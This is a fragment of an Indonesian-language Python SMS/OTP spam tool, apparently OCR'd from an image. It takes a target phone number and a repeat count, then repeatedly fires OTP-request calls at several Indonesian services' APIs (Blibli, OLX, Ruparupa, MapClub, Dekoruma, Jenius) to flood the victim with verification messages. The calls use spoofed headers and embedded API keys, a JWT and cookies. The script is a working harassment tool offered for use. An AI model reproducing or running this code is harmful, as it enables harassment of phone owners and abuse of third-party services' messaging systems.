             bli=requests.post("https://www.blibli.com/backend/common/users/_request-otp",headers={"Host":"www.blibli.com","content-length":"27","accept":"application/json, text/plain, */*","content-type":"application/json;charset=UTF-8","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","sec-ch-ua-platform":"Android","origin":"https://www.blibli.com","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.blibli.com/login?ref=&logonId=0"+nomor,"accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"username":"0"+nomor})).text
            autoketik(f"{W}[{G}✓{W}] Sukses Mengirim Spam")
            countdown(120) # Jangan Diubah !!!!
    except KeyboardInterrupt:
        print ("")
        tanya()

def normal(): # Don't Remove Code !!!!
        os.system("clear")
        banner()
        nomor = input(f"{W}[{R}?{W}] Masukkan Nomor Target {Y}:{G} ")
        jumlah = int(input(f"{W}[{R}?{W}] Masukkan Jumlah Spam {Y}:{G} "))
        for i in range(int(jumlah)):
            AmmarGanz=requests.post("https://www.olx.co.id/api/auth/authenticate",data=json.dumps({"grantType": "retry","method": "sms","phone":"62"+nomor,"language": "id"}), headers={"accept": "*/*","x-newrelic-id": "VQMGU1ZVDxABU1lbBgMDUlI=","x-panamera-fingerprint": "83b09e49653c37fb4dc38423d82d74d7#1597271158063","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36","content-type": "application/json"}).text
            pos=requests.post("https://wapi.ruparupa.com/auth/generate-otp",headers={"Host":"wapi.ruparupa.com","content-length":"120","sec-ch-ua-mobile":"?0","authorization":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiYTQyNDMyZDctZjI5NS00Zjk0LTllYTYtZjlkZmM0ZDgwY2RiIiwiaWF0IjoxNjU3MTI0OTQwLCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.4j37JW_U6DVynJ0wCxHmVNI8SbpsaeUgqk3SEihJmvs","content-type":"application/json","x-company-name":"odi","accept":"application/json","user-agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Safari/537.36","user-platform":"desktop","x-frontend-type":"desktop","sec-ch-ua-platform":"Linux","origin":"https://www.ruparupa.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.ruparupa.com/verification?page=otp-choices","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phone":"0"+nomor,"action":"register","channel":"message","email":"","token":"","customer_id":"0","is_resend":0})).text
            requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
            dekor2=requests.post("https://auth.dekoruma.com/api/v1/register/request-otp-phone-number/?format=json",headers={"Host":"auth.dekoruma.com","save-data":"on","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","content-type":"application/json","accept":"*/*","origin":"https://m.dekoruma.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://m.dekoruma.com/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phoneNumber":"+62"+nomor,"platform":"sms"})).text
            jenius=requests.post("https://api.btpn.com/jenius", json.dumps({"query": "mutation registerPhone($phone: String!,$language: Language!) {\n  registerPhone(input: {phone: $phone,language: $language}) {\n    authId\n    tokenId\n    __typename\n  }\n}\n","variables": {"phone":"+62"+nomor,"language": "id"},"operationName": "registerPhone"}),headers={"accept": "*/*","btpn-apikey": "f73eb34d-5bf3-42c5-b76e-271448c2e87d","version": "2.36.1-7565","accept-language": "id","x-request-id": "d7ba0ec4-ebad-4afd-ab12-62ce331379be","Content-Type": "application/json","Host": "api.btpn.com","Connection": "Keep-Alive","Accept-Encoding": "gzip","Cookie": "c6bc80518877dd97cd71fa6f90ea6a0a=24058b87eb5dac1ac1744de9babd1607","User-Agent": "okhttp/3.12.1"}).text